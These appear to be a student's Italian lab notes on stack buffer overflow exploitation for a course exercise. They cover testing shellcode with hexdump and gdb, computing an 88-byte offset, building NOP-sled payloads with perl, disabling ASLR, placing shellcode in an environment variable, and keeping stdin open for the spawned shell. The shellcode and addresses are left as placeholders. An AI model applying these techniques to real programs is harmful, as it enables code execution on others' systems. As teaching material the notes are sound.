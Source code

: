 # Su 'candy'
Il messaggio non è in .data in quanto sarebbe allocato in memoria
dove non voglio -> voglio l'eseguibile position-independent

# Per testate il codice
Creato il file test.c
Per vedere se l'array è giusto, confronto l'output di
hexdump -d candy.o
e
echo -e "ARRAY_SHELLCODE" | hexdump -C

# Come fare quindi?
Creo il candy vero con
echo -e -n "ARRAY_SHELLCODE" > exploit
togliendo l'ultimo \x0a (newline)
quindi
gdb ./exec-to-attack
ed in gdb
b correct-line
r < exploit

# Attacchiamo l'esercizio 5.4 della scorsa volta
Usando nella cartella 'lesson_3'
python -c "print 'a'*88" | ./ex_5.4_insecure
abbiamo un segfault -> sovrascriviamo con 88 byte
Codice 'noop' = 0x90
La lunghezza di 'exploit' è di 36 bytes
Devo lasciare abbastanza spazio per passare alla gets il puntatore del buffer
Quindi 88 - 36 - 4 = 48
Quindi stampo 48 'noop' seguito dallo shellcode verificato e dal puntatore a buf!
Per avere l'indirizzo di buf statico, necessito di disabilitare la randomizzazione con
echo 0 > /proc/sys/kernel/randomize_va_space
in una shell di root
Quindi, creo l'eseguibile con
perl -e 'print "\x90"x48 . "ARRAY_SHELLCODE" . "INDIRIZZO_BUF"' > exploit
Ma... Errore! Segfault
Controllo caricando in gdb con
gdb execname core
dopo aver eseguito
ulimit -c unlimited
e
cat exploit | exec-name
Vedo che non ho sovrascritto eip ma ebp!
Aggiungo altri 4 bytes di noop
perl -e 'print "\x90"x52 . "ARRAY_SHELLCODE" . "INDIRIZZO_BUF"' > exploit

# Nuovo attacco!
Creo una nuova variabile
export MY_ATTACK=`cat exploit_env`
dopo aver creato l'env exploit come
perl -e 'print "ARRAY_SHELLCODE"' > exploit_env
Quindi, dopo aver trovato l'indirizzo della variabile con
getenvaddr MY_ATTACK
attacco l'eseguibile con
perl -e 'print "A"x88 . "MY_ATTACK_ADDRESS"' | vulnerable-exec

# In generale
1. Scrivi l'exploit in C
2. Convertire l'exploit in assembler
3. Convertire l'exploit in binario
4. Testare il binario
5. ATTACCAH
# Creare una shell in assembler
eax = 0xb
ebx = indirizzo del programma
ecx =
edx = indirizzo dell'ambiente

# Per disassemblare
objdump -d ELF

# Note!
Iniettando il candy shell, 'gets' sminchia lo standard input.
Per sistemare, si fa:
(perl -e 'print JUNK . VAR_ADDRESS'; cat) | ./insecure_executable
